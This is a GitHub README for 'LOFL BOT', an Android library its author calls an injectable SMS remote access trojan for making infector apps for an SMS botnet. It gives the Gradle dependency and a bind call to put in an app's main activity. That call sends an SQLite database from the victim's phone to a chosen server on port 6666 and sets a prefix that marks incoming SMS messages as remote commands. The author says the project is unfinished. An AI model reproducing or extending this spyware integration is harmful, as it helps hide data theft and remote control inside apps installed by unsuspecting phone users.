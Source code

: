 # LOFL BOT
### A 3-year-old injectable remote access SMS RAT. No backend. Therefore, the spyware remote commands won't work. There is a self-destructible SMS notification messenger app. Like snapchat in your drawer. It's hidden in a git branch. I learned Android pentesting with library. I'm really embarrassed of the code. I removed this after a Nigerian NSA officer starred and followed me. This was my first RAT. Iwanteed to leave it to my child but it's for my father.

```gradle
implementation 'com.github.evilthreads669966:lofl:1.0'
```


This project was initially a self destructable messaging app that turned into a library called lofl for automating the process of creating an infector app for an sms botnet. im not finished. I broke the app turning it into a library. i need to figure out how to override the binary broadcast receiver in the app package.
 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
